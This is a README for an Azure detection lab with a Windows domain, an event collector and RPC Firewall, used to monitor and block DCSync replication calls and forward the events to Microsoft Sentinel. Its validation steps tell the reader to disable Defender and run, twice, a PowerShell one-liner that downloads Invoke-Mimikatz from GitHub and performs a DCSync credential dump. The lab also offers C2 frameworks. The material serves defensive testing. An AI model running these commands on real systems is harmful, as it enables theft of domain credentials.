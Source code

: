 # Windows 10 + Domain Controller + Windows Event Collector (WEC) + RPC Firewall Project 

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)
[![Deploy to Azure Gov](https://aka.ms/deploytoazuregovbutton)](https://portal.azure.us/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
    * [Windows Security Events via AMA](https://docs.microsoft.com/en-us/azure/sentinel/data-connectors-reference#windows-security-events-via-ama) data connector enabled.
    * [Data collection rule (DCR)](https://docs.microsoft.com/en-us/azure/templates/microsoft.insights/datacollectionrules?tabs=json) to collect Windows Security events.
    * [Windows RPC Firewall parser](https://raw.githubusercontent.com/OTRF/Microsoft-Sentinel2Go/master/microsoft-sentinel/linkedtemplates/parsers/winRPCFWLogs.json).
* One Windows Active Directory domain (One Domain Controller)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [Windows Event Forwarding (WEF) client configured](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/powershell/auditing/Configure-WEF-Client.ps1).
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* One Windows Event Collector (WEC)
    * Windows [Azure Monitoring Agent](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview?tabs=PowerShellWindows) installed. It connects to the Microsoft Sentinel Log Analytics workspace defined in the template.
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [WEC configured](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/powershell/auditing/Configure-WEC.ps1).
    * [Application Windows event subscriptions](https://github.com/OTRF/Blacksmith/tree/master/resources/configs/wef/subscriptions) deployed.
    * Windows [Azure Monitoring Agent](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview?tabs=PowerShellWindows) installed. It connects to the Microsoft Sentinel Log Analytics workspace defined in the template.
* Windows 10 Workstations (Max. 10)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [Windows Event Forwarding (WEF) client configured](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/powershell/auditing/Configure-WEF-Client.ps1).
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* [OPTIONAL] Command and Control (c2) options:
    * `empire`
    * `covenant`
    * `metasploit`
* Remote Access Restrictions (`AllowPublicIP` default option)
    * Access via Azure Bastion (Recommended. Additional costs applied)
    * Restrict Access to one Public IP Address (For example, Home Public IP Address)

## Validate Event Generation

1. RDP to DC01
2. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_check_events.png)

## Validate Event Collection

1. RDP to WEC01
2. Open Event Viewer and go to `Windows Logs` > `Forwarded Events`

![](../../resources/images/win10-rpcfw_forwarded_events.png)

3. In Event Viewer, go to `Subscriptions`

![](../../resources/images/win10-rpcfw_windows_subscriptions_queries.png)

4. Go to [https://portal.azure.com/](https://portal.azure.com/) and search for "Microsoft Sentinel". You should see logs flowing 5-10 minutes after the deployment of the environment. Events will be available in the `WindowsEvents` table.

![](../../resources/images/win10-rpcfw_check_mssentinel.png)

## Validate RPC Firewall Capabilities
### Monitor Directory Replication Service (DRS) RPC Calls

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData` folder.
2. Validate that the following entry exists in the config file:

```
uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:allow audit:true verbose:true
```

3. If you update the configuration, make sure you run the following command:

```PowerShell
.\RpcFwManager.exe /update
```

4. Disable Defender
5. Open PowerShell as an Administrator and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:mssentinel.local /user:mssentinel\pgustavo" "exit"'
```

6. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_mk_dcsync.png)

### Block Directory Replication Service (DRS) RPC Calls

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData` folder.
2. Validate that the following entry exists in the config file:

```
uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 addr:127.0.0.1 action:allow
uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:block audit:true verbose:true
```

3. If you update the configuration, make sure you run the following command:

```PowerShell
.\RpcFwManager.exe /update
```

4. Disable Defender
5. Open PowerShell as an Administrator and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:mssentinel.local /user:mssentinel\pgustavo" "exit"'
```
4. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_block_replication_event.png)

## Query Events in Microsoft Sentinel

1. Go to [https://portal.azure.com/](https://portal.azure.com/) and search for "Microsoft Sentinel".
2. Go to `logs`
3. There will be a function / parser already available for you to query RPC Firewall events:

![](../../resources/images/win10-rpcfw_query_rpcfirewall_limit10.png)

4. Run a basic query to find the use of Directory Replication Services (DRS) in your environment:

![](../../resources/images/win10-rpcfw_query_rpcfirewall_where_replication.png)

## References:
* https://github.com/Cyb3rWard0g/WinRpcFunctions
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0
* https://github.com/zeronetworks/rpcfirewall
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410